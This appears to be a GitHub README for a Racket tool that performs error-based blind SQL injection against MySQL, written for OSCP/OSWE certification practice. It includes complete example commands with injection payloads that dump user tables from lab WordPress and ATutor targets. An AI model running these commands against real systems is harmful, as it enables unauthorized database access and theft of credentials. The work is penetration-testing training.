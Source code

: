 ## blind-sqli

Offensive Security has a policy that restricts the use of 'sqlmap'
for any of their certification exams. 'sqlmap' is a tool that is
used to facilitate SQL injection on vulnerable web applications.
Understandably, the reason that Offensive Security restricts the
use of 'sqlmap' is to ensure that their students understand how
SQL injection actually works.

The primary downside of this policy though is that executing blind
SQL injections with custom scripts can require a lot of effort.
For a lab machine that I hacked in preparation for the OSCP exam,
I wrote custom blind SQL injection scripts that amounted to nearly
500 lines of code. These scripts listed all of the databases in
the server, listed all of the tables for a given database, and
dumped the contents of a given table.

Now that I am working towards my OSWE, I have decided to write my
own blind SQL injection tool in order to (1) prove that I understand
how blind SQL injection actually works and to (2) save myself
the time and effort of writing custom scripts for each individual
machine that contains a SQLi vulnerability.

This tool will be written in Racket, my favorite programming language.

### Dynamic Scripts

Dynamic scripts allow request data to be generated by a custom
Racket script on a per request basis. This type of functionality
can be extremely helpful when working with sites that have CSRF
protection.

The format for dynamic scripts is as follows:
```
script:<path to Racket script>
```

This type of functionality can be replicated in 'sqlmap' with
something similar to the approach mentioned
[here](https://stackoverflow.com/a/61475928/5832619).

### Limitations

* Only works for error-based blind SQL injection
* Only works on MySQL databases

### Examples

* Command for 10.1.1.246 from the OSCP labs:\
    `racket blind-sql.rkt -d wordpress -t wp_users -s "<results>.+</results>" dump-table GET 10.11.1.251 /wp/wp-content/plugins/wp-autosuggest/autosuggest.php "wpas_action=query&wpas_keys=1'/**/OR/**/~a);#"`
* Command for ATutor from the OSWE labs:\
    `racket blind-sql.rkt -d atutor -t AT_members -s "Offensive" dump-table GET 192.168.153.103 /ATutor/mods/_standard/social/index_public.php "q=' AND ~a);#"`\
    The following command using POST requests also works against ATutor:\
    `racket blind-sql.rkt -d atutor -t AT_members -s "Offensive" -H "Content-Type: application/x-www-form-urlencoded" dump-table POST 192.168.153.103 /ATutor/mods/_standard/social/index_public.php script:examples/atutor-post-data.rkt`

### Other Notes

* Heavily inspired by the SQLi scripts I wrote for 10.1.1.246
    from the OSCP labs.
    Private repository link: https://github.com/johnnyodonnell/notes-on-oscp-lab-machines/tree/master/10.1.1.246

